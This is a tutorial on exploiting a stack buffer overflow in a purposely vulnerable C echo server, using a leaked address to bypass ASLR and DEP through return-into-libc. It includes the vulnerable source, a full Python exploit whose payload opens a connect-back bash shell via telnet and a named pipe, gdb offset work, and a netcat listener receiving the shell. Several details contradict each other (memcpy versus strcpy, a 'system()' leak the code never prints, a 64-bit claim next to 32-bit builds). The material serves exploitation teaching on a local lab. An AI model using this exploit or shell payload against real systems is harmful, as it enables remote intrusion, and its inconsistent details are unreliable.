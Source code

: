 # Example 2 - Echo server with info leak #

Here we present an example of stack overflow exploitation using an information leak to bypass ASLR (and DEP) on Ubuntu 12.04 64 bits. The vulnerable program is an echo server that keeps listening to client connections on port 4000 and when a client connects, receives some data and sends the same data back. In this example we will exploit a program that uses [canaries](http://en.wikipedia.org/wiki/Canary_value) to secure functions against attacks that change the return address of functions. The key idea is to overwrite a function pointer p inside the vulnerable code. In this way, when p is used to call a function, we will point it to another target, effectively gaining control of the program.

## Echo server ##

The echo server code is shown below:

```
/* Echo server with info leak
 * Compile with:
 *     clang -m32 -fstack-protector -g server.c -o server -pie -f PIE
 * the -fstack-protector directive instructs clang to add canaries to the
 * function code, so that attacks that try to change the return address of the
 * function will not succeed.
 */

#include <netinet/in.h>
#include <string.h>
#include <stdio.h>
#include <stdlib.h>

#define MAXRECVLEN 500
#define PORT 4000

void log(char *inbuf) {
    printf("Received %d bytes\n", strlen(inbuf));
}

void process_input(char *inbuf, int len, int clientfd) {
    void (*foo)(char *);
    char localbuf[120];

    if (!strcmp(inbuf, "debug\n")) {
          sprintf(localbuf, "localbuf %p\nsend() %p\n", localbuf,
                  send);
    } else {
        foo = &log;
        strcpy(localbuf, inbuf);
        foo(inbuf);
    }

    send(clientfd, localbuf, strlen(localbuf), 0);
}

int main() {
    int sockfd, clientfd, clientlen, len;
    char inbuf[MAXRECVLEN + 1];
    struct sockaddr_in myaddr, clientaddr;

    sockfd = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);

    myaddr.sin_family = AF_INET;
    myaddr.sin_addr.s_addr = htonl(INADDR_ANY);
    myaddr.sin_port = htons(PORT);

    bind(sockfd, (struct sockaddr *)&myaddr, sizeof(myaddr));
    listen(sockfd, 5);

    clientlen = sizeof(clientaddr);

    while (1) {
        clientfd = accept(sockfd, (struct sockaddr *)&clientaddr, &clientlen);
        
        len = recv(clientfd, inbuf, MAXRECVLEN, 0);
        inbuf[len] = '\0';
        
        process_input(inbuf, len + 1, clientfd);
        
        close(clientfd);
    }
    
    close(sockfd);

    return 0;
}
```

The stack overflow occurs at the _process\_input()_ function, when the data received from the client is copied into _localbuf_ via _memcpy()_. We will try to overwrite the value of _foo_, which is a pointer to a function. The information leak also occurs at the same function, when the server recognizes the special string "debug" and returns two internal addresses: the address of _localbuf_, which is a stack address, and the address of send(), which is an address of a function from the dynamic loaded library libc.

## Information leak to defeat ASLR ##

Ubuntu 12.04 comes with ASLR and DEP mitigations enabled by default. There are some known bypass techniques that can be used to overcome these mitigations, such as brute-force and information leaks for ASLR and _return-into-libc_ and _return-oriented programming_ for DEP. In this example, we use the information leak caused by the "debug" input to obtain addresses to be used in a _return-into-libc_ attack.

We can see the randomized addresses by running the server twice and issuing the "debug" command on a client. To do it, run the following commands in a terminal to start the server:

```
$ clang -m32 -fstack-protector -g server.c -o server -pie -fPIE
$ ./server
```

In a second terminal, run _netcat_ and send "debug":

```
$ nc localhost 4000
debug
localbuf 0xffed9970
system() 0xf763e430
```

Now finish the server and restart it:

```
$ ./server
```

And send the "debug" string again:

```
$ nc localhost 4000
debug
localbuf 0xffb05100
system() 0xf75ac430
```

So, we can see that in each run both addresses are different. To build the exploit, we take advantage of this information leak to execute a _return-into-libc_ attack.
We bypass the clang's stack canary by overwriting the function pointer _foo_ located right after the overflowed buffer.

## The exploit ##

A Python script that takes this approach to exploit the server is shown below:

```
# Exploit for buggy echo server running on Ubuntu 12.04 64 bits
# with DEP and ASLR enabled
#
# Run "nc -vv -l -p 8080" in a second terminal before running this script
# to receive the connect-back shell

import socket
import struct

c = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
c.connect(('localhost', 4000))

buf = "debug\n"
c.send(buf)
buf = c.recv(512)
leaked_stack_addr = int(buf[9:buf.find('\n')], 16)
leaked_send_addr = int(buf[27:buf.rfind('\n')], 16)
c.close()

c = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
c.connect(('localhost', 4000))

command = ('rm -f backpipe && mknod backpipe p &&'
           'telnet localhost 8080 0<backpipe | /bin/bash 1>backpipe;')

system_addr = leaked_send_addr - 0xb1390
pad = 120 - len(command)
buf = (command + 'A' * pad +
       struct.pack('I', system_addr)
       )
c.send(buf)

c.close()
```

The exploit makes two connections to the echo server. In the first one, it sends the "debug" string to receive the two leaked addresses. Then, it makes the second connection to send the malicious data to create a connect-back shell.

The malicious data is composed of:

  * the string containing the command to create the connect-back shell
  * pad bytes to fill the buffer until we reach the function pointer
  * the address of _system()_ calculated from the leaked _send()_ address

To calculate the addresses of _system()_ from the leaked _send()_ address, we need to calculate the offset first. So, we load _gdb_, set a breakpoint on _main()_, run the server and issue some commands to get the addresses of _send()_ and _system()_, as follows:

```
$ gdb --quiet ./server 
Reading symbols from /home/xxx/xpl/server...done.
(gdb) b main
Breakpoint 1 at 0xa0d: main. (2 locations)
(gdb) run
Starting program: /home/xxx/xpl/server 

Breakpoint 1, main () at server.c:39
39	    sockfd = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);
(gdb) p send
$1 = {<text variable, no debug info>} 0xf7efa7c0 <send>
(gdb) p system
$2 = {<text variable, no debug info>} 0xf7e49430 <system>
(gdb) 
```

After obtaining these addresses, we calculate the offsets as follows:

```
system_send_offset = system_addr - send_addr = 0xf7e49430 - 0xf7efa7c0 = - 0xb1390
```

With this offset we can calculate the _system()_ address right from the the leaked _send()_ address.

When the function pointed by _foo_ is called, it will jump to the _system()_ function and execute the malicious command.

## Running the exploit ##

We can run the exploit and execute commands on the server with the following steps.

First, run the server in a terminal:

```
$ ./server
```

Second, start _netcat_ in listening mode on port 8080 to receive the connect-back shell:

```
$ nc -vv -l -p 8080
```

Third, run the exploit in a third terminal:

```
$ python exploit.py
```

Finally, return to the _netcat_ terminal and send some commands:

```
$ nc -vv -l -p 8080
listening on [any] 8080 ...
connect to [127.0.0.1] from localhost [127.0.0.1] 36597
date
Thu Feb 25 14:45:04 BRT 2013
uname -a
Linux xxx 3.2.0-38-generic #61-Ubuntu SMP Tue Feb 19 12:18:21 UTC 2013 x86_64 x86_64 x86_64 GNU/Linux
```

The files used here are available at Downloads page.